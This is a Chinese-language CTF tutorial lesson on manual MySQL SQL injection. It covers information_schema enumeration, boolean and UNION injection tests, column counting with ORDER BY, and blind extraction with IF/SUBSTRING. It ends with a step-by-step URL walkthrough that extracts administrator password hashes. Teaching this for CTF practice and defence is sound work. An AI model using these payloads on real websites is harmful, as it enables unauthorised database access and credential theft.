# CTF夺旗赛教程：P37：SQL查询与手工注入 🛡️









在本节课中，我们将学习MySQL数据库安全的核心部分：SQL查询与手工注入。我们将从了解数据库的基本结构开始，逐步学习如何利用SQL语句进行信息探测和手工注入攻击，最终掌握在CTF竞赛中识别和利用SQL注入漏洞的方法。





## 数据库结构探秘 🗂️







上一节我们介绍了SQL注入的基本概念，本节中我们来看看MySQL数据库的内部结构。了解这些结构是进行有效信息收集的基础。



MySQL提供了一个名为 `information_schema` 的系统数据库，它存储了关于所有其他数据库的元数据（即数据的数据）。我们可以通过查询这个数据库来获取关键信息。



以下是 `information_schema` 数据库中三张最重要的表：





*   **`SCHEMATA` 表**：此表记录了当前MySQL服务器中所有的数据库名。关键列是 `SCHEMA_NAME`。
    ```sql
    SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;
    ```
*   **`TABLES` 表**：此表记录了所有数据库中的所有数据表名。关键列是 `TABLE_NAME`。我们可以通过 `TABLE_SCHEMA` 字段来筛选特定数据库下的表。
    ```sql
    SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = ‘mysql’;
    ```
*   **`COLUMNS` 表**：此表记录了所有表中的所有列名。关键列是 `COLUMN_NAME`。我们可以通过 `TABLE_NAME` 字段来筛选特定表的列。
    ```sql
    SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME = ‘users’;
    ```



掌握了这些表的结构，我们就拥有了探查目标数据库的“地图”。



## 基础SQL语句与逻辑测试 🔍



在开始注入前，我们需要熟悉一些基础的SQL查询和逻辑测试方法，这是构造注入语句的基石。



我们以一个 `students` 表为例进行演示。

*   **基本查询与WHERE子句**：
    ```sql
    -- 查询所有数据
    SELECT * FROM students;
    -- 查询特定条件的数据
    SELECT * FROM students WHERE name = ‘韩寒’;
    ```
*   **利用逻辑运算符测试**：在WHERE条件后添加 `AND` 逻辑进行测试，是判断是否存在注入点的关键。
    ```sql
    -- 逻辑永真，通常返回所有或特定数据
    SELECT * FROM students WHERE name = ‘韩寒’ AND 1=1;
    -- 逻辑永假，通常返回空结果
    SELECT * FROM students WHERE name = ‘韩寒’ AND 1=2;
    ```
    如果页面在 `1=1` 和 `1=2` 时返回结果有明显差异（如内容显示与消失），则很可能存在SQL注入漏洞。





## 确定查询列数与联合查询 🧩





当我们确认存在注入点后，下一步是确定当前查询语句返回的列数，以便使用联合查询（UNION）来获取其他数据。

*   **使用ORDER BY确定列数**：`ORDER BY` 子句用于按指定列排序。如果指定的列序号超过了实际列数，数据库会报错。我们可以利用这一点来探测列数。
    ```sql
    SELECT name, age FROM students ORDER BY 3; -- 尝试按第3列排序，可能报错
    SELECT name, age FROM students ORDER BY 2; -- 尝试按第2列排序，正常返回
    ```
    通过递增数字测试，直到报错，即可推断出查询的列数。例如，`ORDER BY 4` 报错而 `ORDER BY 3` 正常，则说明查询结果为3列。
*   **联合查询（UNION）**：`UNION` 操作符用于合并两个或多个SELECT语句的结果集。要成功进行UNION注入，有两个关键要求：
    1.  两个SELECT语句必须拥有相同数量的列。
    2.  列的数据类型必须相似。
    ```sql
    -- 假设原查询返回两列（name, age）
    SELECT name, age FROM students WHERE id=1
    UNION
    SELECT ‘a‘, ‘b‘; -- 成功执行，返回额外一行(‘a‘, ‘b‘)
    ```
    `UNION` 会去除重复行，而 `UNION ALL` 会包含所有重复行。

## 信息收集与手工注入实战 ⚔️



现在，我们将结合数据库函数、条件判断和字符串处理，进行实际的手工注入操作。



*   **常用数据库函数**：这些函数可以帮助我们获取系统信息。
    ```sql
    SELECT DATABASE(); -- 当前数据库名
    SELECT VERSION();  -- 数据库版本
    SELECT USER();     -- 当前数据库用户
    SELECT @@version_compile_os; -- 操作系统
    ```
*   **利用UNION注入获取信息**：在确定列数后，我们可以将上述函数放入UNION查询中，让结果回显在页面上。
    ```sql
    -- 假设原查询返回3列，且第2列会回显到页面
    SELECT title, content, author FROM articles WHERE id=1
    UNION
    SELECT 1, DATABASE(), 3;
    ```
    这样，页面原本显示 `content` 的位置就会显示出当前数据库的名称。
*   **基于布尔（Boolean）的盲注**：当页面没有直接的数据回显，但会根据SQL语句执行的真假返回不同的页面状态（如内容存在/消失、HTTP状态码不同）时，可以使用布尔盲注。我们利用 `IF()` 函数和 `SUBSTRING()` （或 `SUBSTR()`）函数来逐位猜解数据。
    ```sql
    -- 猜解当前用户名的第一个字符是否为‘r‘
    SELECT * FROM users WHERE id=1 AND IF(SUBSTRING(USER(),1,1)=‘r‘, 1, 0);
    -- 如果条件为真，执行正常查询；如果为假，可能返回空或错误。
    ```
    通过循环遍历字符（‘a‘到‘z‘, ‘0‘到‘9‘等），可以逐步猜解出整个字符串（如数据库名、表名、列名、具体数据）。
*   **结合information_schema进行系统化注入**：这是手工注入的核心流程。
    1.  **猜解表名**：
        ```sql
        -- 猜解指定数据库（例如‘testdb‘）下的第一个表名的第一个字符
        AND IF(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=‘testdb‘ LIMIT 0,1),1,1)=‘a‘, 1, 0)
        ```
    2.  **猜解列名**：
        ```sql
        -- 猜解指定表（例如‘users‘）下的第一个列名的第一个字符
        AND IF(SUBSTRING((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME=‘users‘ LIMIT 0,1),1,1)=‘i‘, 1, 0)
        ```
    3.  **提取数据**：
        ```sql
        -- 猜解‘users‘表中‘username‘列的第一行数据的第一个字符
        AND IF(SUBSTRING((SELECT username FROM users LIMIT 0,1),1,1)=‘a‘, 1, 0)
        ```



## 一个完整的手工注入案例 📋



假设存在一个URL：`http://example.com/news.php?id=14`



1.  **确认注入点**：
    *   `http://example.com/news.php?id=14 AND 1=1` 页面正常。
    *   `http://example.com/news.php?id=14 AND 1=2` 页面内容消失。⇒ 存在注入点。
2.  **判断列数**：
    *   `http://example.com/news.php?id=14 ORDER BY 5` 报错。
    *   `http://example.com/news.php?id=14 ORDER BY 4` 正常。⇒ 查询结果为4列。
3.  **寻找回显点**：
    *   `http://example.com/news.php?id=14 UNION SELECT 1,2,3,4` 查看页面哪个位置显示了数字（例如，数字2和3显示在页面上）。⇒ 假设第2、3列会回显。
4.  **获取信息**：
    *   `http://example.com/news.php?id=14 UNION SELECT 1, DATABASE(), USER(), 4` ⇒ 在页面上看到数据库名和用户名。
5.  **提取表名、列名、数据**：
    *   使用前面介绍的基于 `information_schema` 和 `SUBSTRING` 的布尔盲注方法，逐步猜解出表名（如 `admin`）、列名（如 `username`, `password`），最终提取出管理员的账号密码哈希值。



## 总结 🎯





本节课中我们一起学习了SQL查询与手工注入的完整流程。我们从探索MySQL的 `information_schema` 数据库结构开始，学习了如何利用基础SQL逻辑测试注入点，使用 `ORDER BY` 判断列数，并通过 `UNION` 查询进行数据回显。最后，我们深入探讨了基于布尔盲注的技术，结合字符串函数和条件判断，系统性地猜解数据库名、表名、列名乃至具体数据。掌握这些手工注入技巧，不仅能帮助你在CTF比赛中解决Web类题目，更能深刻理解SQL注入漏洞的原理与防御的重要性。